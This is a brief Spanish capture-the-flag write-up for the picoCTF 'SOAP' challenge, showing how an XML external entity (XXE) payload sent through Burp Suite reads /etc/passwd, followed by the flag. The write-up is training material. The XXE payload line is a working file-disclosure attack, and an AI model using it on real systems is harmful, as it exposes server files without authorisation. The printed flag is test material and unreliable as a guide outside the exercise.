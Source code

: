 **Reto:** SOAP

**Descripción:**
El proyecto web se realizó con prisas y no se realizó ninguna evaluación de seguridad. ¿Puedes leer el archivo /etc/passwd?[Portal web](http://saturn.picoctf.net:56207/)


**Solución:**
usamos burp suite y el payload de lectura de archivo en el  repetidor 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>


picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
**Notas adicionales:**

**Referencias:** 
https://www.youtube.com/watch?v=b1pGlutUL34
